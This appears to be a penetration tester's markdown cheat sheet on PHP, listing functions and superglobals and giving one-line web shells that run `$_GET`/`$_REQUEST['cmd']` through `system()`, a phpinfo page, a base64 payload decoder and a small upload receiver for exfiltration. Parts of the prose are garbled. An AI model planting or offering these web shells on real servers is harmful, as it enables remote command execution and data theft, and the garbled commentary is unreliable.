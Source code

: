 # Useful_PHP

[RTFM here is a documentation](https://www.php.net/) below is just useful php with description how its workings. One of the many Web-Hackronomicons of eye-brow-raising levels of secure language design with the insanity of multiple function calls capable of doing the exact same thing. Try to remember which are all of the vulnerable code in which server context anduser context when humans like trust and favourites, where is the person that shouts remember the Pwhpaarrr 1.69 version of with a similar function called that is allowed by some design loop hole. 

PHP 8.1 - Dev has a Backdoor


PHP webserver
```bash
php -S 0.0.0.0:8000
```

Execute file:
```bash
php file.php
```

## Useful Functions listing

Regex
[preg_match](https://www.php.net/manual/en/function.preg-match.php) - Perform a regular expression match

[is_resource](https://www.php.net/manual/en/function.is-resource.php) - Finds whether a variable is a resource

Arrays
[array_shift](https://www.php.net/manual/en/function.array-shift.php) - Shift an element off the beginning of array

Strings 
[explode](https://www.php.net/manual/en/function.explode.php) - Split a string by a string
[implode](https://www.php.net/manual/en/function.implode.php) - Join array elements with a string

Files
[finfo_open](https://www.php.net/manual/en/function.finfo-open.php) - Create a new finfo instance
[move_uploaded_file](https://www.php.net/manual/en/function.move-uploaded-file.php) - Moves an uploaded file to a new location
[file_put_contents](https://www.php.net/manual/en/function.file-put-contents.php)

Execution:
[passthru](https://www.php.net/manual/en/function.passthru.php) - The _passthru_() function is similar to the exec() function in that it executes a command . This function should be used in place of exec() or system() he output from the Unix command is binary data which needs to be passed directly back to the browser. 


## Superglobals

PHP [superglobals](https://www.php.net/manual/en/language.variables.superglobals.php) are variables that are associative arrays that are available in all scopes throughout a script.

The superglobal `$GLOBAL` variable defines globally scope variables
- As of PHP 8.1.0, write access to the entire [`$GLOBALS`](https://www.php.net/manual/en/reserved.variables.globals.php) array is no longer supported


## Scripting

Http `cmd` super global variable function for RCEs  
```php
<?php system($_GET['cmd']); ?>
```
`<?php` is the script tag, `system()`is the function call, `$_GET` is a reserved(in standard libvrary) [superglobal variable for HTTP GET](https://www.php.net/manual/en/reserved.variables.get.php), `['cmd']` ,`;` is line terminating character and finally `?>` is the closing script tag. 

```php
<?php system($_REQUEST['cmd']); ?>
```

phpinfo displayer
```PHP
<?php echo("Hello");phpinfo(); ?>
```

Base64 PHP decoder
```PHP
<?php echo zlib_decode(base64_decode('base64here')); ?>
```

## Vulnerable Functions

[[Vulnerable-PHP-Functions]]

## Webserver Exfiltratation

Curl post data to the webserver to then login to exfiltrate
```php
<?php 
if (isset($_POST['file'])) {
        $file = fopen("/tmp/http.bs64","w");
        fwrite($file, $_POST['file']);
        fclose($file);
   }
?>
```

Put your horrible PHP in html: [php.net](https://www.php.net/manual/en/language.basic-syntax.phpmode.php)

## References

[HTTP GET superglobal variable](https://www.php.net/manual/en/reserved.variables.get.php)
[php.net](https://www.php.net/) 
